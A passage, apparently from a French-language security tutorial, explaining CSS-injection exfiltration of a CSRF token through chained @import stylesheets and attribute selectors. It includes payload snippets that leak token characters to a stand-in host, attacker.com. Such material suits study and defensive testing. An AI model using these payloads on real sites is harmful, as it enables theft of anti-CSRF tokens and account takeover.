 Il est donc nécessaire que le serveur de l'attaquant récupère le caractère avant de générer la nouvelle feuille CSS, bloquant ainsi l'import. Il faut donc que le navigateur, en attendant la réponse de l'import, applique les autres règles CSS présentes dans le fichier (permettant ici de faire fuiter un des caractères).

Seuls les navigateurs basés sur Chromium fonctionne de la sorte. Firefox par exemple, va bloquer à l'import et se mettre en attente de la nouvelle feuille CSS sans jamais appliquer les sélecteurs CSS présents déclarés dans la feuille. Ce qui aura pour conséquence de ne pas faire fuiter le caractère nécessaire à la génération de la feuille de l'import, faisant ainsi tomber le navigateur dans une boucle infinie.

#### Multiple application d'un style CSS à un élément

Afin de gagner en performance, si plusieurs règles CSS ciblent le même élément, alors une seule de ces règles sera appliquée. Par exemple :&#x20;

{% code overflow="wrap" %}
```css
h1 {
  background: url(https://example.com/images/background1.png);
}

h1 {
  background: url(https://example.com/images/background2.png);
}
```
{% endcode %}

Ici seul le `background2.png` sera appliqué. Mais ce n'est pas tout, car seul l'URL `https://example.com/images/background2.png` sera appelée, la première règle CSS sera donc complètement ignorée.

Cela va poser problème dans le cadre de l'automatisation. Lors de l'application de la première feuille de style, le sélecteur CSS du premier caractère sera appliqué (en admettant que le premier caractère est un `h`) :&#x20;

{% code overflow="wrap" %}
```css
input[name=csrf-token][value^=h]~* {
  background-image:url(https://attacker.com/?leak=h);
}
```
{% endcode %}

Mais la règle (présente dans le prochain import) ciblant le même élément sera alors ignorée ne faisant ainsi pas fuiter le second caractère :&#x20;

{% code overflow="wrap" %}
```css
input[name=csrf-token][value^=h2]~* {
  background-image:url(https://attacker.com/?leak=h2);
}
```
{% endcode %}

Ici, la solution est d'utiliser la pseudo-class `:first-child` autant de fois que nécessaire de la façon suivante :&#x20;
